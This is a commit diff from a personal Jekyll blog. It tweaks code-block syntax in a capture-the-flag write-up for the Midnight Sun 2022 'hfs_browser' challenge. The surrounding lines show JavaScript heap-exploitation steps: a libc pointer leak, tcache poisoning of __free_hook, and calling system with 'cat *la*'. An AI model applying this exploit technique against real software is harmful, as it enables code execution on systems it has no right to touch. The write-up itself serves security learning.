

Before and after one commit to Pedro-Bernardo/pedro-bernardo.github.io, a Jekyll site: the page built from _posts/2022-04-03-midnightQuals22_hfs_browser.md, in a window 1280 px wide and 1400 px high, scrolled down 3729 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add hfs_browser writeup

````diff
--- a/_posts/2022-04-03-midnightQuals22_hfs_browser.md
+++ b/_posts/2022-04-03-midnightQuals22_hfs_browser.md
@@ -166,7 +166,7 @@ Eventually, we decided to try the following exploit:
 
 We created a chunk with size 0x1000, freed it and then inspected its contents. We got a libc pointer in the second QWORD of the chunk.
 
-```javascript=
+```javascript
 function hex(a) {
   var result = "";
 
@@ -203,11 +203,11 @@ After a lot of tweaking, we developed working exploit ([pwn.js]({{ "/assets/code
 
 1. Alocate a chunk of size 0x1e0.
 We chose 0x1e0 since the Tcache was already populated, meaning we would not have problems with the chunk counter.
-```javascript=
+```javascript
 chunk = new Uint8Array(0x1e0);
 ```
 2. Free the chunk
-```javascript=
+```javascript
 chunk.midnight();
 ```
 Tcache:
@@ -216,7 +216,7 @@ Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a80, size=0x1f0, fl
 ```
 
 3. `chunk->fd = &__free_hook`
-```javascript=
+```javascript
 free_hook = libc_base + 0x1eee48;
 free_hook_str = free_hook.toString(16);
 
@@ -235,7 +235,7 @@ Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a70, size=0x1f0, fl
 ```
 
 4. Allocate a chunk and write the command for `system`. `cat *la*` worked for our exploit.
-```javascript=
+```javascript
 chunk2 = new Uint32Array(0x78);
 chunk2[1] = 0x2a616c2a; // *la*
 chunk2[0] = 0x20746163; // cat
@@ -246,14 +246,14 @@ Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x7ffff7ddfe48, size=0x0
 ```
 
 5. Allocate the final chunk. `malloc` will return `&__free_hook`
-```javascript=
+```javascript
 target = new Uint32Array(0x78);
 target[0] = system;         // lower  32 bits of system
 target[1] = system_upper;   // higher 32 bits of system
 ```
 
 6. Free chunk2 containing `cat *la*`
-```javascript=
+```javascript
 chunk2.midnight()
 ```
 
````
